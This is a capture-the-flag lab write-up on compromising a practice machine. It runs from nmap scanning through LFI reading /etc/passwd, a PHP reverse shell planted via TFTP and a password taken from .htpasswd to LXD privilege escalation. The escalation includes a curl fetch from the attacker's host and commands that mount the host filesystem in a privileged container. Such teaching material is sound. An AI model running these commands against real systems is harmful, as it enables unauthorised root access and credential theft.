





# Resume of the box
After a simple [[🗺️Nmap]] scan I found that port 80 was open running an http server. After reaching the site with the browser the first thing that came to my attention was the URL, because it uses a ``file`` parameter to load the home page. Trying an [[LFI(Local File Inclusion)]] vulnerability with this parameter I was able to retrieve the users of the system. That's how I noticed `tftp` was installed. With a `nmap udp scan` I confirmed this service was running. I downloaded a `PHP reverse shell script` and executed it by leveraging the folder where tftp stores the files that were uploaded. Gaining access to the machine I tried to `cat` the user flag, but it wasn't possible due to insufficient permissions. I needed to **pivot** within the system, which I achieved by finding credentials of user `mike` in the `/var/www/html/.htpasswd` file. So there is the `user flag`. After that I checked which groups `mike` belonged to and found `lxd`, which is a great hint for the next steps. I created an `alpine` image on my local machine and uploaded it to the target to exploit the **LXD/LXC Privilege Escalation**. After initializing and entering the container I was able to find the `root flag`.

# Enumeration
I started with this `nmap` command:
````bash
nmap -p- --min-rate 1500 10.129.95.185 -oA nmap/scan_tcp_nmap
````
And this was the output:
````txt
Nmap scan report for 10.129.95.185
Host is up (0.22s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

# Nmap done at Thu Aug 20 13:35:44 2026 -- 1 IP address (1 host up) scanned in 55.28 seconds
````

Knowing that port 80 was open, I tried to discover it's version and also added the standard scripts:
````bash
nmap -p 80 -sC -sV 10.129.95.185
````
With the output:
````txt
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-20 13:41 -0400
Nmap scan report for 10.129.95.185
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.06 seconds
````
So I was able to find that Apache was running on the target and it's version. On the URL that was retrieved I took note of the file parameter and it gave me a clue of the next steps, probably [[LFI(Local File Inclusion)]] vulnerability.



## Enumerating the site
I entered the site with the `target ip` and tried to exploit the file parameter with common Linux sensitive files: `/etc/hosts and /etc/passwd`. The second trial was already successful (`/etc/passwd`). Analyzing the output, the thing that caught my attention was the tftp service, a great vector that I could use to get the reverse shell.



### Tftp
Tftp is a protocol used for file transfer in Linux systems, it is like a simpler [[FTP]], but is has no authentication as it's an `udp`based protocol. Depending on how it's used in the target machine I probably would be capable to put a `PHP reverse shell file` in the target and execute it via [[LFI(Local File Inclusion)]].

## Gaining a Foothold
To gain a foothold, I uploaded a reverse shell via `TFTP` and triggered it through the LFI. To execute it properly I had to know where does the `TFTP`stores the files that it receives, I knew that by the `/etc/passwd`file, that had the service and it's home directory(`/var/lib/tftpboot/`).



# User flag and pivoting
When I entered the system I stabilized the shell and tried to catch the flag at the `/home/mike/`directory but I was user `www-data` and had no permission of reading the `user.txt` so now I needed some lateral movement, pivot.

## Pivoting
Knowing that the server running was `Apache`I tried to read the common `Apache`sensitive files: `.htaccess and .htpasswd` in `/var/www/html/`. Catching that I discovered the `user mike`password. And pivoted using `su - mike`.



# Privilege Escalation
As `user mike` the first thing I did was see which groups I belonged:



## Lxd and Lxc
The `lxd`group gives access right to the socket daemon `LXD`, that runs as `root` and do not distinguish privileged operations of non-privileged operations - basically, this is equal of being root in the system. 

I utilized the steps described here: [Hacktricks Lxd/Lxc PrivEsc](https://hacktricks.wiki/pt/linux-hardening/user-information/interesting-groups-linux-pe/lxd-privilege-escalation.html)
I first created the files in my machine that would generate the alpine image later and uploaded it to the target, by starting a python server locally and downloading the image via curl in the target.
In my machine:
````bash
python3 -m http.server 8000
````
In the target:
````bash
curl -O http://<My_IP>:8000/incus.tar.xz -O http://<My_IP>:8000/rootfs.squashfs
````
After that I created an **alpine image**:
````bash
lxc image import incus.tar.xz rootfs.squashfs --alias alpine

## Created the container
lxc init alpine privesc -c security.privileged=true
````
This `security.privileged` flag is very important because it gives root access to the file system of the machine that we will mount in the container. Otherwise I would be `root`for the services inside the container, but wouldn't gain access to the root flag that is inside the file system mounted.

Here I mounted the file system in the container and did it recursively so all the files inside the directories are mounted: 
````bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
````

Now I just needed to start the container and execute the command that initiated a shell and...
````bash
lxc start privesc

lxc exec privesc /bin/sh
````
I was root, to end the box:
````bash
# the file system was built in /mnt/root/
cat /mnt/root/root/root.txt
````
